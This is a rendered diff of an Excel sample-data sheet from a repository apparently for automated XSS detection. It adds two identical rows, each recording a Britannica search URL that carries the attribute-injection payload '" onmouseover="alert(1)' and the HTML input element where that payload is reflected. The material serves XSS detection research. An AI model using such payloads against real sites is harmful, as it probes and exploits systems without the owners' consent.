

Before and after one commit to adnanshahz2018/Automated-XSS-Detection, an Excel workbook: sample_data/file.xlsx, sheet Sheet1, drawn as a sheet; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/sample_data/file.xlsx (sheet Sheet1)
+++ b/sample_data/file.xlsx (sheet Sheet1)
+row 8: https://www.britannica.com/search?query=" onmouseover="alert(1) | ATTR | <input name="query" id="search-page-search-query" placeholder="Search Britannica..." class="form-control form-control-lg search-query pr-50 shadow-sm" value="" onmouseover="alert(1)" maxlength="200" autocomplete="off" aria-label="Search Britannica" />
+row 9: https://www.britannica.com/search?query=" onmouseover="alert(1) | ATTR | <input name="query" id="search-page-search-query" placeholder="Search Britannica..." class="form-control form-control-lg search-query pr-50 shadow-sm" value="" onmouseover="alert(1)" maxlength="200" autocomplete="off" aria-label="Search Britannica" />
```
Also changed, not shown: sample_data/data.xlsx, 31 other files.
